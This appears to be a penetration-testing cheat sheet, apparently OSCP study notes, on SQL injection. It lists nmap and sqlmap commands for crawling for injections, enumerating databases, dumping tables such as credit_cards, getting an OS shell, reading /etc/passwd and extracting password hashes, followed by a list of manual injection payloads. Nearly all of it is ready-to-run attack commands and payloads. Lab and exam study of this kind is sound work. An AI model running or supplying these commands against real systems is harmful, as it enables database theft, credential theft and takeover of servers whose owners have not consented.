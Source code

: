     nmap -sV --script=http-sql-injection <target>  
    
Using jsql 

### SQLMAP (Not allowed on OSCP exam but good for labs!) 
Crawl a page to find sql-injections. Always use a valid non-error generating URL and put the URL in quotes.   

    sqlmap -u "http://example.com" --crawl=1    
    sqlmap -u "http://site.org/index.php?vuln_param=1" --dbms=mysql --dbs    #after identifying a vulnerability see database names     
    sqlmap -u "http://site.org/index.php?vuln_param=1" --dbms=mysql -D database --tables    #get table names from a database       
    sqlmap -u "http://site.org/index.php?vuln_param=1" --dbms=mysql -D database -T table --dump    #dump table content         
Used captured HTTP request (use Burp proxy)   

    sqlmap -r sqli.txt   
Custom SQLi
    sqlmap -u --data="query" -D [database name] --tables --threads 5 
    
Dump database 

    sqlmap -u "http://172.21.0.0" --dbms=mysql --dump   
Get a shell 

    sqlmap -u "http://172.21.0.0" --dbms=mysql --os-shell
Using sqlmap with login-page  

    sqlmap -u "https://site.org/sqli/sqli.php?name=Bob" --file-read=/etc/passwd   #read file, if SQL is configured to allow that   
    sqlmap -r request.txt --dbs    
    sqlmap -r request.txt -D dbname -T tablename   
    sqlmap -r request.txt --search -D db_name_search   
    sqlmap -r request.txt -D nowasp -T credit_cards --dump --start=1 --start=2       #look at 1st 2 records in table    
    sqlmap -r request.txt --users --passwords           #find hashes / usernames     

### Manual Testing    
try single quote, then double quote, then try with comments     
Comment chars    

    ' " % %% -- /* // ) ;   
Testing Payloads    

    'or 1=1- -
    'or 1=1;-  
    ' or '1'=1
    ' or '1'=1 - -
    '–
    ' or '1'='1
    -'
    ' '
    '&'
    '^'
    '*'
    ' or ''-'
    ' or '' '
    ' or ''&'
    `' or ''^'``
    `' or ''*'
    "-"
    " "
    "&"
    "^"
    "*"
    " or ""-"